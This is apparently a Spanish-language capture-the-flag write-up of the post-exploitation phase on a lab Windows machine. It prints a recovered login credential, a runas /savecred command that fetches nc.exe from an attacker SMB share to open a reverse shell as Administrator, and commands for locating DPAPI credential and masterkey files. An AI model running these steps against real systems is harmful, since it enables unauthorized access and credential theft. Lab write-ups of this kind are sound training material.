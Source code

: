 A lo que presenta una cuenta y contraseña para el login de telnet encontrado previamente. Obteniendo así acceso a la máquina. (`security:4Cc3ssC0ntr0ller`)

![Acceso a la máquina](images/exploit_3.png)

## Post Explotación

### Enumeración

Al ejecutar `cmdkey /list` para verificar la existencia de credenciales guardadas en la máquina se encontró que se encontraban credenciales del usuario `Administrator`.

![Credenciales guardadas](images/post_1.png)

### Escalación de privilegios

Al seguir el paso a paso de [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---runas) se puede impersonar el usuario con credenciales guardadas, ejecutando el comando `runas`.

Por lo que después de compartir acceso mediante un servidor de `smb` se pudo ejecutar el binario `nc.exe` para obtener una reverse shell con:

```bash
runas /savecred /user:ACCESS\Administrator "\\10.10.14.12\smbFolder\nc.exe -e cmd.exe 10.10.14.12 1234"
```

![Acceso como Administrator](images/post_2.png)

1. Ejecución de comando `runas`.
2. Servidor `smb`.
3. Obtención de reverse shell como `Administrator`.

## Conclusión


## Notas adicionales

Al verificar la resolución de la máquina con la de [0xdf](https://0xdf.gitlab.io/2019/03/02/htb-access.html#privesc-to-administrator) encontré que era posible extraer las contraseñas dado que se encuentran cacheadas, siguiendo el writeup oficial de la máquina y el post de [harmj0y](https://blog.harmj0y.net/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/) para abusar de DPAPI.

Para lograr la extracción de la API es necesario identificar los archivos de las credenciales y las masterkeys de los cuales los archivos de las credenciales son cadenas de 32 caracteres y las masterkeys son GUIDs, cuentan con el atributo de "Archivos de sistema" por lo que se tendría que usar `dir /AS` para identificarlos.

Lugares a buscar:

```powershell
dir /S /AS C:\Users\security\AppData\Local\Microsoft\Vault
​dir /S /AS C:\Users\security\AppData\Local\Microsoft\Credentials
dir /S /AS C:\Users\security\AppData\Local\Microsoft\Protect
​dir /S /AS C:\Users\security\AppData\Roaming\Microsoft\Vault
​dir /S /AS C:\Users\security\AppData\Roaming\Microsoft\Credentials
dir /S /AS C:\Users\security\AppData\Roaming\Microsoft\Protect
```
